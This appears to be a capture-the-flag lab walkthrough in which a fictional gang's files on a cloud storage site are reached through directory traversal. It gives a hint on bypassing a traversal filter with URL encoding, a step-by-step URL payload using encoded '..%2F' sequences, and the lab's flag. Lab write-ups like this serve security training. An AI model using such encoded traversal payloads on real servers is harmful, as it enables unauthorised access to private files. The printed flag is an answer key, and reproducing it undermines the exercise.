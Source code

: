 # 📦 Multiple Boxes - L12 C12

Could this be the icing on the cake? Remember Filebox, the cloud storage site Bulldog gang member Billy Johnson was using to store his files? Well, it seems he's not the only gang member to store his secret files there.

As we know it's vulnerable we want to look at other ways to find the gang's files. We think the files can be exposed with directory traversal and there are some two levels up from the account page. See if you can get access to them.

**Tip:** Find the file to get the flag.

<details><summary>

## Need a hint?</summary>

> 💡 Hint: Looks like this web server is setup to filter out common directory traversal attempts. Could you use some character encoding to bypass the filter? CAPEC 79

</details>

<details><summary>

## Step by Step</summary>

- Replace the url with the following
  - https://www.easy-filebox.com/u/2374682/user/files..%2F..%2F..%2F..%2F..%2F..%2F..%2F
  - The flag should appear

`flag: Lpa8LauYxLKeUuiUUT6X`

</details>
